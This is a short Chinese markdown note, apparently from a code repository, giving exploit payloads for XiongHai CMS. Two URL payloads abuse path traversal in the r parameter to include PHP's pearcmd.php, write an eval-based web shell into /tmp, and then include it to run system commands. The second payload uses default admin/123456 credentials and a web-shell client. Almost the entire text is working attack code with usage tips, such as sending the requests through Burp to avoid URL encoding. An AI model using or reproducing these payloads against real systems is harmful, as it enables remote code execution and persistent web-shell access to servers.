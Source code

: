 # 熊海CMS pearcmd

* 用burp发, exp_xionghai_cms.py
* 不要用 浏览器和request 库会自动url编码。
```bash
# payload1
/?+config-create+/&r=../../../../../../../../../usr/share/pear/pearcmd&<?=eval($_REQUEST[1]);?>+/tmp/aaa123.php
/?r=../../../../../../../../../tmp/aaa123&1=system('ls+/');

# payload2
admin/123456 登录
/admin/index.php?+config-create+/&r=../../../../../../../../../../usr/share/php/pearcmd&/<?=eval($_POST[cmd]);?>+../../../../../../../../tmp/1.php
/admin/index.php?r=../../../../../../../../../../tmp/1 # 蚁剑连接
```
